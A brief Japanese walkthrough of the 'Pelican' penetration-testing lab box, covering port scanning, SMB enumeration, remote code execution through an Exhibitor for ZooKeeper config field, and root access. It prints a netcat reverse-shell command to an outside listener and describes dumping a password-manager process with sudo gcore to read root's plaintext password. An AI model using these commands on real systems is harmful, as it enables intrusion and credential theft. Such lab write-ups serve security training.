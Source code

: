 # Pelican

## 手順
1. いつものrustscan。怪しいポートが結構ある。
2. まずSMBの139がanonymousログオンいけるので見るがめぼしい情報はなく。smbmap -Hを匿名で行うもどこにもアクセスはできず。
3. smbにもprintみたいなフォルダがあり、631ポートがippとかいうプリンター関連のポートらしく。怪しいなと思い。しかしぱっと調べた感じ特に何もなく。
4. 2181にzookeeper、8080はJetty1.0がありどっちも怪しいなと。しかしぱっと調べた感じpublic exploitが見当たらず。
5. 8081ポートを見るとExhibitor for ZooKeeperというUIが。v1.0とあり古そう。調べるとconfirmedされていないものの、Public Exploitが見つかり。
6. Configタブから簡単な$(/bin/nc -e /bin/sh 192.168.45.240 4444 &)というコマンドを入力しておいてCommitするとRCEに成功してシェルを取れた。
7. 次に権限昇格。
8. 適当にsudo -lすると、NO PASSでgcoreというコマンドを実行できることが分かる。GTFObinsや他のブログを調べると、このツールを使うことでファイルをダンプできるらしいことが分かる。
9. 一応linpeasもみる。他にも怪しそうなのは色々あるが、今のところはgcoreから行くのがよさそう。
10. ps auxでsshやpassword系のプロセスをダンプする。いくつか見るもめぼしい平文をダンプできず。
11. password-storeという名前のプロセスが平文のパスワードマネージャーらしい。これをダンプする。
12. ダンプした後、ダンプしたcore.$PIDファイルをstrings ./hoge | grep pass -A 7 -B 6する。 -Aはpassがヒットした前7行を、-Bはpassがヒットした後ろ6行を出力するというオプション。
13. 出力結果を見ると、rootの平文が手に入る。
14. su rootしてパスワード入力して権限昇格終わり。